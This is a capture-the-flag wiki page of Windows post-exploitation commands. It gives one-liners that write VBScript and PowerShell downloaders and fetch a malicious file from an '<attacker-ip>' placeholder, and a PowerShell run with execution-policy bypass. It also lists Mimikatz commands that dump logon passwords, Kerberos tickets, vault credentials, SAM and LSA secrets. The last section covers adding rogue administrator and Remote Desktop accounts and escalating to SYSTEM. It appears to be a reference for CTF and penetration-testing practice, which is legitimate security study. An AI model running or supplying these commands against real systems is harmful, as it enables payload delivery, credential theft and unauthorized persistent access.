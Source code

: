 ```yaml
---
layout: article
title: Windows
permalink: /wikis/ctf/windows
aside:
    toc: true
sidebar:
    nav: wikis
---
```


## File Transfer
### cscript
If command execution is available and firewalls allow for file transfers: 

cscript.exe is a command-line version of the Windows Script Host that provides command-line options for setting script properties. With cscript.exe, you can run scripts by typing the name of a script file at the command prompt. 

create <b>wget.vbs</b> for vbscript transfer (in a single command) 
```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs && echo StrFile = WScript.Arguments.Item(1) >> wget.vbs && echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs && echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs && echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs && echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs && echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs && echo Err.Clear >> wget.vbs && echo Set http = Nothing >> wget.vbs && echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs && echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs && echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs && echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs && echo http.Open ^"GET^", strURL, False >> wget.vbs && echo http.Send >> wget.vbs && echo varByteArray = http.ResponseBody >> wget.vbs && echo Set http = Nothing >> wget.vbs && echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs && echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs && echo strData = ^"^" >> wget.vbs && echo strBuffer = ^"^" >> wget.vbs && echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs && echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs && echo Next >> wget.vbs && echo ts.Close >> wget.vbs 
```
 
Use cscript to run the wget.vbs script 
```
cscript <script-name> http://<attacker-ip>/<malicious-file> <output-file> 
```


### Powershell
Powershell transfer - red needs to be your own values 
```
echo $storageDir = $pwd> wget.ps1 && echo $webclient = New-Object System.Net.WebClient>> wget.ps1 && echo $url = "http://<attacker-ip>/<malicious-file>">> wget.ps1 

echo $file = "<output-file>">> wget.ps1 

echo $webclient.DownloadFile($url,$file)>> wget.ps1 
```
 
Confirm script creation 
```
type wget.ps1 
```
 
Execute PS script 
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File <scriptname> 
```


## Mimikatz

Extracting information from <b>mimikatz</b> 

```
log 
privilege::debug 
sekurlsa::logonpasswords 
sekurlsa::tickets /export 

vault::cred 
vault::list 

token::elevate 
vault::cred 
vault::list 
lsadump::sam 
lsadump::secrets 
lsadump::cache
```


## Privilege Escalation

Adding users 
```
net user <username> <password> /ADD 
net localgroup administrators <username> /ADD 
net localgroup "Remote Desktop Users" username /ADD 
```
<br>
<br>
Admin to System 
```
at 13:01 /interactive cmd
```